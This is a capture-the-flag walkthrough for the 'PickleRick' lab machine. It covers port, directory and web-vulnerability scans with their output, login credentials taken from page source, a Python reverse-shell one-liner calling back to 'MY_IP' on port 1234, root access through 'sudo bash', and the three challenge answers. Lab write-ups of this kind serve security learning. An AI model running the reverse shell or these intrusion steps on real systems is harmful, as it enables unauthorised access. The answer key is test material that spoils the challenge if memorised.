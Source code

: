 ### PickleRick

```
export IP=10.10.151.51
```

## Nmap

```
nmap -sV -sC -oN nmap/inicial.out $IP -vv
```

### Nmap Results:

```
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c6:1a:fe:0d:4c:4f:c3:0f:a3:a2:f2:a3:ae:cc:d0:c0 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC+nKZ7PtOXxE8gbB4nMHrZfECt/mSCDhTto01xC1L0eQyntKWOhwYTsvKp6B1UDkFlFUrOZSKMtWqoEtD4+SbiYXGqns6ImwhKRtFE9KsneGo3BKqBYSammBs8I6lRfMm4EMeXVJ4M3t2VllrQl25nLTT0/fBMpWVj/i/oDvvirob5BPXiWi18bkSwvPUOvT1+X8Bmu6LnquQurW4cCMSM2KMYjahd9GgtqFTz6YezyY/KJeZNzbwS7LZs1ZFaUO/Fqos4guba+u2tuj0udysEbvvH8+gLst1vpsXC/sYvkme1SH/7DaEvOBnnL2d99+/Bokv8hft1jHEpiTV5Q9tx
|   256 20:f4:9a:3e:3c:ab:6e:2a:23:e8:33:c7:6a:4b:c0:07 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKgADA1rw+pp9DXx7JhyPIIoxrQZWPwzHszsAsCChaikNPjFHEtLyysnRPf72bqqU+8l1EV7lBM3gIAjCbBLGfo=
|   256 49:77:75:85:f5:5a:d1:31:58:4b:95:86:5a:e9:0d:39 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBs0TwkBcdVOEmtg9d+aCtcM3TLwzgHWJ557DuQI6k5q
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

## Gobuster

```
gobuster dir -u $IP -w wordlists/directory-list-2.3-medium.txt -x php,js,py,sh,txt,cgi,html,css -o ./gobuster/gbuster-firstpage.out
```

### Gobuster Results

```
/assets               (Status: 301) [Size: 313] [--> http://10.10.151.51/assets/]
/server-status        (Status: 403) [Size: 300]
```

## Nikto

```
nikto -h http://$IP | tee ./nikto/nikto.out 
```

### Nikto results

```
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.10.151.51
+ Target Hostname:    10.10.151.51
+ Target Port:        80
+ Start Time:         2023-09-02 20:35:04 (GMT-3)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ /: Server may leak inodes via ETags, header found with file /, inode: 426, size: 5818ccf125686, mtime: gzip. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1418
+ OPTIONS: Allowed HTTP Methods: OPTIONS, GET, HEAD, POST .
+ /login.php: Cookie PHPSESSID created without the httponly flag. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
+ /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/
+ /login.php: Admin login page/section found.
+ 8075 requests: 0 error(s) and 8 item(s) reported on remote host
+ End Time:           2023-09-02 21:25:21 (GMT-3) (3017 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested

```

## login page

User found in the first page source code: R1ckRul3s (login)

.txt found using gobuster: Wubbalubbadubdub (password)

## Base64

```
echo Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0== | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d
```

result: rabbit hole 
(a waste of time heh)

## Python reversed shell

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("MY_IP",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## Questions:

1. What is the first ingredient that Rick needs?

Sup3rS3cretPickl3Ingred.txt: mr. meeseek hair

2. What is the second ingredient in Rick’s potion?

if not sudo bash, then
```
sudo bash
```
then
```
cd /home
```
then find second ingredient in rick directory: 1 jerry tear

3. What is the last ingredient in Rick’s potion?

```
sudo bash
```
then
```
cd ~
``` 
then find 3rd.txt: fleeb juice
